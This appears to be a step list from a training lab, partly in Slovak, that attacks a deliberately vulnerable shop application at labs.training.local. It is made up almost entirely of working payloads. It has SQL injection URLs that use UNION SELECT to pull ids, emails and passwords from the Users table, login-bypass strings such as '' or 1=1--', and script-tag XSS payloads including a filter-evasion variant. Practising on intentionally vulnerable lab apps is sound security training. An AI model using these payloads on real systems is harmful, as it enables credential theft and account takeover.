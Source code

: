 ## Open Firefox browser 
6. 
``` 
http://labs.training.local/rest/products/search?q= 
```
7. 
``` 
http://labs.training.local/rest/products/search?q=test’-- 
```
8. 
``` 
http://labs.training.local/rest/products/search?q=test’)) -- 
```
10. 
``` 
http://labs.training.local/rest/products/search?q=test’)) UNION SELECT * FROM Users --

http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4' FROM Users --
``` 
11. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users --
``` 
12. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users --
``` 
14. 
```
admin@juice-sh.op'--
```
15.
```
' or 1=1-- 
```

# Útok so zneužitím XSS
4. 
```
<script>alert(`xss`)</script> 
```
5. 
```
<<a|ascript>alert(`xss`)</script> 
```
6. 
```
<script>123456789</script> 
```

